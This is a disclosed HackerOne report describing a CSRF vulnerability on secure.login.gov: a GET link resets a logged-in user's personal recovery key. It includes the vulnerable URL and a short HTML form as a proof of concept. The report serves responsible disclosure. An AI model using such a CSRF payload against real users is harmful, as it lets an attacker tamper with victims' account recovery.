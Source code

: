 # CSRF to change Account Security Keys on secure.login.gov

## Report Details
- **Report ID**: 263498
- **URL**: https://hackerone.com/reports/263498
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-08-26T02:49:15.371Z
- **Disclosed**: 2017-11-01T19:22:25.330Z

## Reporter
- **Username**: fawazxq
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
This may not be in scope and nor be eligible for bounty but I read this in your vulnerability disclosure policy:

*While not all of our services are in scope for our Bug Bounty program, we do welcome disclosures of vulnerabilities through our Vulnerability Disclosure Policy. We would encourage you to review that policy if you have information about a vulnerability in a TTS service not listed below.*

So, I will go ahead and report this, however if you feel I have gone too far or shouldn't test this current sub-domain please inform me so that I can self-close the report as N/A and only focus on the domains, sub-domains and GitHub projects listed on the program page.

**Description**

There exists a CSRF vulnerability which allows an attacker to reset a victims personal security key aka the key which is required to get access back to your account if you ever lose access to your mobile device or forgot your password for your account on secure.login.gov

**POC**

Vulnerable Link : https://secure.login.gov/manage/personal_key?resend=true (Click on it after you are logged in to your account on secure.login.gov)

**CSRF POC**

<html><head>
<title>CSRF POC</title>
</head><body>
<form action="https://secure.login.gov/manage/personal_key?resend=true" method="GET">
<input type='submit' value='Go!' />
</form>
</body></html>

Also, don't hesitate to ask me if you have any further questions or need some clarifications.

Regards
zk34911



## Attachments
No attachments
